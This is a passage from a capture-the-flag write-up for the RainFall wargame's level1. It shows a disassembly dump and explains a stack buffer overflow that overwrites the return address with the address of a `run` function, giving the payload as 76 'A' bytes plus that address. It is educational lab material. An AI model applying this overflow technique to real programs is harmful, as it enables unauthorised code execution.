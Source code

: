 ```sh
 8048536:	66 90                	xchg   %ax,%ax
 8048538:	83 eb 04             	sub    $0x4,%ebx
 804853b:	ff d0                	call   *%eax
 804853d:	8b 03                	mov    (%ebx),%eax
 804853f:	83 f8 ff             	cmp    $0xffffffff,%eax
 8048542:	75 f4                	jne    8048538 <__do_global_ctors_aux+0x18>
 8048544:	83 c4 04             	add    $0x4,%esp
 8048547:	5b                   	pop    %ebx
 8048548:	5d                   	pop    %ebp
 8048549:	c3                   	ret
 804854a:	90                   	nop
 804854b:	90                   	nop

Disassembly of section .fini:

0804854c <_fini>:
 804854c:	53                   	push   %ebx
 804854d:	83 ec 08             	sub    $0x8,%esp
 8048550:	e8 00 00 00 00       	call   8048555 <_fini+0x9>
 8048555:	5b                   	pop    %ebx
 8048556:	81 c3 37 12 00 00    	add    $0x1237,%ebx
 804855c:	e8 5f fe ff ff       	call   80483c0 <__do_global_dtors_aux>
 8048561:	83 c4 08             	add    $0x8,%esp
 8048564:	5b                   	pop    %ebx
 8048565:	c3                   	ret
level1@RainFall:~$
```

- Okay it's a big porridge, but we can see the address of the function `run` is `0x8048444`.

5) `local_50` keeps 76 bytes, and the return address is 4 bytes after the end of the buffer. So we need to fill the buffer with 76 bytes, and overwrite the return address with the address of the `run` function.

For more explications, her's a schema :

```txt
Empilement initial de la pile
+----------------------------+
| Adresse de retour (main)   | <- Écrasée par l'adresse de `run`
+----------------------------+
| local_50 (76 octets)       |
+----------------------------+

Empilement après débordement de tampon
+----------------------------+
| Adresse de retour (0x08048444) <- Redirige vers `run`
+----------------------------+
| "A" * 76 + \x44\x84\x04\x08|
+----------------------------+
```

6) **Now we know how to exploit the program** : we need to provide 76 bytes of padding followed by the address of the `run` function. Let's do it and construct the payload. For construct the payload we need :
- The address of the `run` function : `0x08048444`
- The padding : `"A" * 76`
